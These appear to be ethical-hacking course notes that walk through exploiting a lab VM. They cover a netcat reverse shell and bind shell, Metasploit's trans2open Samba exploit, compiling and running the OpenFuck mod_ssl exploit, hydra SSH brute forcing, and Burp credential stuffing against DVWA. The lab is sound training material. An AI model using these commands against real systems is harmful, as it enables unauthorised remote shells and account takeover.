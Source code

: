 # Exploitation Basics

## Reverse shell vs Bind shell

### netcat

➡️ [netcat](https://netcat.sourceforge.net/)

**Reverse shell** - the victim/target connects back to the attacker

- Attack machine - **listening** on a port
- Target machine - connect to the attacker machine listening port

![Netcat Reverse Shell - hackingtutorials.org](3-eth-hackassets/Netcat-reverse-shell.jpg)

```bash
# Attacker
nc -nvlp 4444

# Target
nc 192.168.31.131 4444 -e /bin/bash
```

![Reverse shell](3-eth-hackassets/2024-07-11_20-40-27_596.png)

**Bind shell** - the attacker opens a port on the target (via exploitation) and connects to it

- Attack machine - exploits target and opens port listening on target and connects to it
- Target machine - listens for the attacker connection

![Netcat Bind Shell - hackingtutorials.org](3-eth-hackassets/Netcat-bind-shell.jpg)

- Specially used on external assessment

```bash
# Target
nc -nvlp 4444 -e /bin/bash

# Attacker
nc 192.168.31.131 4444
```

![Bind shell](3-eth-hackassets/2024-07-11_20-41-43_597.png)

---

## Staged vs Non-Staged payloads

**Non-Staged payload** - sends exploit shellcode all at once, larger in size and won't always work

- Metasploit e.g. `payload/windows/meterpreter_reverse_tcp`



**Staged payload** - sends payload in stages, less stable

- Metasploit e.g. `payload/windows/meterpreter/reverse_tcp`

---

## Metasploit (SMB attack)

```bash
searchsploit samba 2.2
```

![searchsploit samba 2.2](3-eth-hackassets/2024-07-13_09-03-53_601.png)

```bash
# Run Metasploit
msfconsole

search trans2open
use exploit/linux/samba/trans2open
options

set RHOSTS 192.168.31.130
show targets

run
```

- This does not work, since it is using the `linux/x86/meterpreter/reverse_tcp` staged payload.
- Try with another payload

```bash
set payload linux/x86/shell_reverse_tcp
run
```

![root on Kioptrix VM](3-eth-hackassets/2024-07-13_09-10-10_602.png)

- Gained reverse shell via Metasploit

---

## Manual exploitation

Use [OpenLuck](https://github.com/heltonWernik/OpenLuck) to exploit [CVE-2002-0082](https://nvd.nist.gov/vuln/detail/CVE-2002-0082) - [Apache mod_ssl < 2.8.7 OpenSSL - Remote Buffer Overflow](https://nvd.nist.gov/vuln/detail/CVE-2002-0082)

- Follow usage instruction to compile the exploit and run it against the target machine

```bash
git clone https://github.com/heltonWernik/OpenFuck.git
sudo apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto

./OpenFuck

# check an offset for Apache 1.3.20 
# ./OpenFuck target box [port] [-c N]
```

```bash
./OpenFuck 0x6b 192.168.31.130 -c 40
```

![](3-eth-hackassets/2024-07-13_09-24-35_603.png)

---

## Brute force attacks

- Brute-force attack `SSH` with weak/default credentials

### hydra

➡️ [hydra](https://github.com/vanhauser-thc/thc-hydra)

```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.31.130 -t 4 -V
```

- Use the same with Metasploit

```bash
msfconsole

search ssh_login
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.31.130
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
set THREADS 10
set VERBOSE true
run
```

---

## Credential stuffing and Password spraying

[**Credential stuffing**](https://owasp.org/www-community/attacks/Credential_stuffing) - injecting breached account credentials (leaks, etc) in hopes of account takeover

[**Password spraying**](https://owasp.org/www-community/attacks/Password_Spraying_Attack) - brute forcing logins based on a list of usernames with default passwords

```bash
ls -lah /usr/share/seclists/Passwords/Leaked-Databases/
```

- Setup FoxyProxy in the browser and start BurpSuite.
- Use local vulnerable webapp like [dvwa](https://nvd.nist.gov/vuln/detail/CVE-2002-0082)

```bash
sudo apt install dvwa

dvwa-start
```

- Open the login page - [http://127.0.0.1:42001/vulnerabilities/brute/](http://127.0.0.1:42001/vulnerabilities/brute/)

**BurpSuite**

- Turn intercept ON and send the login request to intruder
- Highlight the username and password values, and add them to the payload positions
- Attack type - `Pitchfork`

![](3-eth-hackassets/2024-07-13_09-53-02_604.png)

- **Payloads**
  - for each payload set, paste the usernames list and password
  - Start the attack
    - check the response for Status change and Length

![](3-eth-hackassets/2024-07-13_10-10-23_605.png)

![](3-eth-hackassets/2024-07-13_10-10-38_606.png)

![](3-eth-hackassets/2024-07-13_10-20-20_607.png)

---

